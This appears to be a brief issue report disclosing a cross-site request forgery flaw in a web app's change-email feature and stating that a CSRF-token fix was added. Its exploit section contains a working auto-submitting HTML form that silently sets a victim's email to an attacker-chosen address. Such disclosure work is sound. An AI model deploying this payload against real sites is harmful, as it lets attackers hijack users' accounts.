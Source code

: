 ### Description

Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. It allows an attacker to partly circumvent the same origin policy, which is designed to prevent different websites from interfering with each other. 

refers : 
 	- https://portswigger.net/web-security/csrf
 	- https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)

### Issue

Change email feature is vulnerable to csrf attack 

### Expolit 


```html

<form action="/" method="post">
<input type="hidden" value="pwned@example.org" name="email">
</form>
<script>
      document.forms[0].submit();
</script>

```

### Fix 

implemented csrf_token based submitting in change email feature